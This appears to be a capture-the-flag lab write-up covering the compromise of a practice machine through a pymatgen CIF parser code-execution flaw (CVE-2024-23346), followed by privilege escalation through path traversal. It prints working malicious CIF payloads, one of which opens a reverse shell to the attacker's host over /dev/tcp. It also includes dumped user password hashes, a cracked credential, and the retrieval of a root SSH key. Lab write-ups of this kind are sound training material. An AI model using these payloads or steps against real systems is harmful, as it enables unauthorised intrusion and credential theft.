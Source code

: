 
```bash
sudo nmap -sC -sV -T4 -p- -oN nmap 10.129.248.106
```

![[Pasted image 20241020022405.png]]

only port 5000 is open 

the website allow us to upload a CIF file 

![[Pasted image 20241020022634.png]]


after a little bit of googling I found that the CIF file is a files used in some kind of chemistry stuff , I potential library (pymatgen) that can be used in  this kind of stuff .

this library suffer from  #CVE-2024-23346 

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

I change the payload of  the file with this 

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.132");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


after trying to view the file 

![[Pasted image 20241020053514.png]]


getting shell

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i &>/dev/tcp/10.10.14.132/1337 <&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


![[Pasted image 20241020054408.png]]


I just enumerate the `/home/app` a little bit , and I found an interesting file 
`database.db`

```bash
strings /home/app/instance/database.db

strings /home/app/instance/database.db
SQLite format 3
ytableuseruser
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
indexsqlite_autoindex_user_1user
5tablestructurestructure
CREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
indexsqlite_autoindex_structure_1structure
check.cifdcfb4e48-76c1-443b-87a3-21d3d9cb707c3
check.cif7f11548a-b442-4b6f-b380-b92e64dbf21c3
check.cif76578519-aed6-4eb1-b920-16f39e12f2a63
check.cifc70e34f5-26db-4d4f-bc9b-d49b420791643	
check.cif178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf3
check.cif6a2e39a0-c66c-4114-a4c7-5bce40afe1aa3
shell.cifb3d6de33-c4c3-4b14-b9b9-6a27e2875c073
shell.cif13487916-50e2-4f5c-adec-a3fae1c9e85f1
rce.cif91ba68f0-6258-423a-990a-8320aa5e18481
rce.ciffeed5fc0-cb23-47e1-8fb5-42a93dfb97dd1
rce.ciffd75b664-b324-41c4-b890-abf84ed7756f5
example.cife63baf83-a7df-49b2-969e-521cb945ab6d5
example.cifa3eac938-17c2-48c0-a408-9929c659aa47
dcfb4e48-76c1-443b-87a3-21d3d9cb707c
7f11548a-b442-4b6f-b380-b92e64dbf21c
76578519-aed6-4eb1-b920-16f39e12f2a6
c70e34f5-26db-4d4f-bc9b-d49b42079164
178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf	(
6a2e39a0-c66c-4114-a4c7-5bce40afe1aa
b3d6de33-c4c3-4b14-b9b9-6a27e2875c07
13487916-50e2-4f5c-adec-a3fae1c9e85f
91ba68f0-6258-423a-990a-8320aa5e1848
feed5fc0-cb23-47e1-8fb5-42a93dfb97dd
fd75b664-b324-41c4-b890-abf84ed7756f
e63baf83-a7df-49b2-969e-521cb945ab6d
U	a3eac938-17c2-48c0-a408-9929c659aa47
Md0s3nta386e70db5d043ce7584bb27512f3114+
Mkristel6896ba7b11a62cacffbdaded457c6d92(
Maxel9347f9724ca083b17e39555c36fd9007*
Mfabian4e5d71f53fdd2eabdbabb233113b5dc0+
Mgelacia4af70c80b68267012ecdac9a7e916d18+
Meusebio6cad48078d0241cca9a7b322ecd073b3)	
Mtaniaa4aa55e816205dc0389591c9f82f43bb,
Mvictoriac3601ad2286a4293868ec2a4bc606ba3)
Mpeter6845c17d298d95aa942127bdad2ceb9b*
Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*
Mjobert3dec299e06f7ed187bac06bd3b670ab2*
Mrobert02fcf7cfc10adc37959fb21f06c6b467(
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
Mapp197865e46b878d9e74a0346b6d59886a)
Madmin2861debaf8d99436a10ed6f75a252abf
d0s3nt
kristel
axel
fabian
gelacia
eusebio
tania	
victoria
peter
carlos
jobert
robert
rosa
	admin
```

file contain different hashes , I tried to crack rosa hash since , she's user in the machine

![[Pasted image 20241020054726.png]]

`rosa:unicorniosrosados`

![[Pasted image 20241020054820.png]]

## root

for the root , I found an internal webapp 

```bash
 netstat -ntlp
```

![[Pasted image 20241020055021.png]]

forward it to port 8081 on my own machine
```bash
ssh -L 8081:127.0.0.1:8080  rosa@10.129.17.243
```

![[Pasted image 20241020055115.png]]

![[Pasted image 20241020055223.png]]


after wasting a lot of time , checking crontabs

the app is vulnerable to path traversing on `/assets`

![[Pasted image 20241020055505.png]]


![[Pasted image 20241020055605.png]]


just copy the ssh key to  file 

```bash
chmod 600 root_key
ssh root@10.129.17.243 -i root.key
```

![[Pasted image 20241020055804.png]]